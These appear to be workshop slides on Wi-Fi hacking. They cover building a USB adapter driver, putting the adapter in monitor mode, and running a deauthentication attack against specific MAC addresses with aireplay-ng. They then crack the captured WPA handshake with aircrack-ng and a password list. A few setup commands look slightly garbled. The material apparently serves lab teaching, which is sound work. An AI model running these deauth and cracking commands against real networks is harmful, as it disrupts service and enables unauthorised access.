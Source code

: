 # Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

### Disclaimer

Do not hack into any networks without prior authorisation

### Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

### Adapter Setup

[https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

sudo apt\-get update

sudo apt\-get install linux\-headers\-$\(uname \-r\)

Git clone [https://github\.com/gnab/rtl8812au](https://github.com/gnab/rtl8812au)

Cd rtl8812au

make

sudo insmod 8812au\.ko

sudo cp 8812au\.ko /lib/modules/$\(uname  r\)/kernel/drivers/net/wireless

sudo depmod

sudo apt\-get install build\-essential dkms

sudo make dkms\_install

echo 8192eu | sudo tee \-a /etc/modules

### Adapter Setup

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

### Adapter Setup

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

### Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">s</span>  <span style="color:#000000">udo airodump\-ng \-c 11 wlan0</span>

### Discovering devices

![](img/WifiHackingWorkshop5.png)

### De-Auth Attack

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

### Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

